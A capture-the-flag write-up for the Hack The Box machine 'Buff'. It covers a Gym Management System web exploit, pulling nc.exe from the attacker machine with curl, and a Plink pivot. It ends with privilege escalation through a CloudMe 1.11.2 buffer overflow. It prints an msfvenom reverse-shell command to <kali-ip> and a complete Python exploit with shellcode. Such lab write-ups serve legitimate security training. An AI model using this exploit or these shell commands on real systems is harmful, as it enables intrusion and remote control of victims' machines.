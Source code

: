 ```yaml
---
title: 'HTB: Buff'
date: '2020-11-21 19:04:00 -0400'
categories:
  - HackTheBox
  - Write-ups
tags:
  - HTB
  - pivot
  - overflow
published: true
---
```


IP: 10.10.10.198


We'll start things off with an NMap scan.
![06cfc558fe03d8b0c3ed3ca3e3649822.png](./../../assets/img/06cfc558fe03d8b0c3ed3ca3e3649822.png)


The webserver on port 8080 looks to be running Gym Management System. The standard footer has been changed to hide this, but it's still on the contact page.
![c1b4ec2904be4e3ec168d8841d9c5104.png](./../../assets/img/c1b4ec2904be4e3ec168d8841d9c5104.png)
![9b3d9de1efcab6ab008f565155f73edd.png](./../../assets/img/9b3d9de1efcab6ab008f565155f73edd.png)


We can use a public exploit to get a basic shell from [here](https://www.exploit-db.com/exploits/48506). If you're running Kali 2020, you will probably need to fix the exploit in order for it to work since Python2.7 is heavily phased out. This can be done with `2to3-2.7 -w 48506.py`.
![7275456c3113cf7b9e1dcbcea0218d3d.png](./../../assets/img/7275456c3113cf7b9e1dcbcea0218d3d.png)


Now we can run the exploit properly with Python3.
![f64f50b891d5a7611026a15244cbf293.png](./../../assets/img/f64f50b891d5a7611026a15244cbf293.png)


We can grab the user flag now before we try to get a better shell on the box.
![1e8c67e104e7a1a0c79a921f93aafe15.png](./../../assets/img/1e8c67e104e7a1a0c79a921f93aafe15.png)


CertUtil doesn't want to cooperate, but we do have access to Curl. We'll host a Netcat binary with `python -m SimpleHTTPServer 80` and then run `curl -O <kali-ip>:80/nc.exe` to pull it to the target.
![4a95b684b25ee4d221f0a4bb0f455638.png](./../../assets/img/4a95b684b25ee4d221f0a4bb0f455638.png)
![e1ec03a5cab2677f02cae976dc1bf2d2.png](./../../assets/img/e1ec03a5cab2677f02cae976dc1bf2d2.png)


Now we can start a listener and then call Netcat.
![f6956c3f6f6adca55ae60ed9c1b2ad8a.png](./../../assets/img/f6956c3f6f6adca55ae60ed9c1b2ad8a.png)
![ebed04248fed4e721a46f157b490dbc6.png](./../../assets/img/ebed04248fed4e721a46f157b490dbc6.png)


If we take a look at running processes with `tasklist` we see a strange process called CloudMe.
![7843a116bb14da112accdcffccd36db4.png](./../../assets/img/7843a116bb14da112accdcffccd36db4.png)


Looking around, we find the exe in Shaun's downloads folder.
![e3abd20723ec52b108ed4dcba88307cf.png](./../../assets/img/e3abd20723ec52b108ed4dcba88307cf.png)


A quick google search shows us that this version is vulnerable to a buffer overflow attack. Given the name of the box, this should be our way to privesc.
https://www.exploit-db.com/exploits/48389


The default port for CloudMe is 8888. We can check to see if it's listening on that with `netstat -aof | findstr :8888`.
![15194e417049dd2769842e62bcc79a96.png](./../../assets/img/15194e417049dd2769842e62bcc79a96.png)


Unfortunately we can't access this directly if we look back at our Nmap scan. We'll have to find a way to pivot into it using something like Plink.
![e26a278e002293ad825c7dfbe53d1825.png](./../../assets/img/e26a278e002293ad825c7dfbe53d1825.png)


We need to run Curl in another instance of the web shell.
![7d184b4ad7770a1bd5612f598f738ed6.png](./../../assets/img/7d184b4ad7770a1bd5612f598f738ed6.png)
![4104ddb888b79f62429201098b951c84.png](./../../assets/img/4104ddb888b79f62429201098b951c84.png)


Now we can start up the SSH service on our system for the incoming connection we'll make with Plink.
![fb7892c83fd455faad4232846498a3c5.png](./../../assets/img/fb7892c83fd455faad4232846498a3c5.png)


Before we make the connection, I strongly suggest you use the `passwd` command to set a temp password, or use a temporary account in case someone manages to hijack your credentials.
![bfb63c6255693c09d4fcfbcbac53891b.png](./../../assets/img/bfb63c6255693c09d4fcfbcbac53891b.png)


After some tinkering, we find that trying to call Plink from within the CMD shell we have doesn't work. Restarting the NC shell while passing powershell.exe shows the certificate dialog so we can confirm it. We have also set our SSH service to run on port 443 as well since HTB blocks SSH out on port 22 to keep users safer.
![ef60c279631269273f4b1338b32afce9.png](./../../assets/img/ef60c279631269273f4b1338b32afce9.png)


Now we can generate a payload for the CloudMe exploit using MsfVenom.
```bash
msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe <kali-ip> 4445 -e powershell.exe' -b '\x00\x0A\x0D' -f python -v payload
```
![d50e016d78503e5f469c1fc64f172b6b.png](./../../assets/img/d50e016d78503e5f469c1fc64f172b6b.png)


Now we have our finished exploit.
```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload =  b""
payload += b"\xd9\xd0\xd9\x74\x24\xf4\xba\x32\x4a\x21\x90\x58"
payload += b"\x2b\xc9\xb1\x40\x83\xe8\xfc\x31\x50\x14\x03\x50"
payload += b"\x26\xa8\xd4\x6c\xae\xae\x17\x8d\x2e\xcf\x9e\x68"
payload += b"\x1f\xcf\xc5\xf9\x0f\xff\x8e\xac\xa3\x74\xc2\x44"
payload += b"\x30\xf8\xcb\x6b\xf1\xb7\x2d\x45\x02\xeb\x0e\xc4"
payload += b"\x80\xf6\x42\x26\xb9\x38\x97\x27\xfe\x25\x5a\x75"
payload += b"\x57\x21\xc9\x6a\xdc\x7f\xd2\x01\xae\x6e\x52\xf5"
payload += b"\x66\x90\x73\xa8\xfd\xcb\x53\x4a\xd2\x67\xda\x54"
payload += b"\x37\x4d\x94\xef\x83\x39\x27\x26\xda\xc2\x84\x07"
payload += b"\xd3\x30\xd4\x40\xd3\xaa\xa3\xb8\x20\x56\xb4\x7e"
payload += b"\x5b\x8c\x31\x65\xfb\x47\xe1\x41\xfa\x84\x74\x01"
payload += b"\xf0\x61\xf2\x4d\x14\x77\xd7\xe5\x20\xfc\xd6\x29"
payload += b"\xa1\x46\xfd\xed\xea\x1d\x9c\xb4\x56\xf3\xa1\xa7"
payload += b"\x39\xac\x07\xa3\xd7\xb9\x35\xee\xbd\x3c\xcb\x94"
payload += b"\xf3\x3f\xd3\x96\xa3\x57\xe2\x1d\x2c\x2f\xfb\xf7"
payload += b"\x09\xdf\xb1\x5a\x3b\x48\x1c\x0f\x7e\x15\x9f\xe5"
payload += b"\xbc\x20\x1c\x0c\x3c\xd7\x3c\x65\x39\x93\xfa\x95"
payload += b"\x33\x8c\x6e\x9a\xe0\xad\xba\xd9\x3c\x0e\x3d\xbf"
payload += b"\x2d\xde\xcd\x63\xc5\x6a\x4a\xf3\x76\xe0\xce\x6c"
payload += b"\x01\x6b\xb3\x07\x81\x1f\x24\x89\x05\xbc\xd4\x2a"
payload += b"\xeb\x59\x51\xc8\xd3\x90\x91\x3c\x22\xe3\xff\x71"
payload += b"\x70\x2d\x31\x42\x58\x05\x05\x96\xad\x45\x48\xb3"
payload += b"\xed\xf5\xfd\x4c\x88\x87\x72\xdb\x37\x04\x19\x35"
payload += b"\xd2\xac\x84\x49"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```


We'll start up a new Netcat listener on port 4445 and fire off the exploit.
![f46a4c0b9690f0cac479efcd83437111.png](./../../assets/img/f46a4c0b9690f0cac479efcd83437111.png)
![1f85e6943af0a92fe0a7a6f19a515609.png](./../../assets/img/1f85e6943af0a92fe0a7a6f19a515609.png)


All that's left is to grab the root flag.
![44a5971c51e4bcda3735e3b9b8477165.png](./../../assets/img/44a5971c51e4bcda3735e3b9b8477165.png)
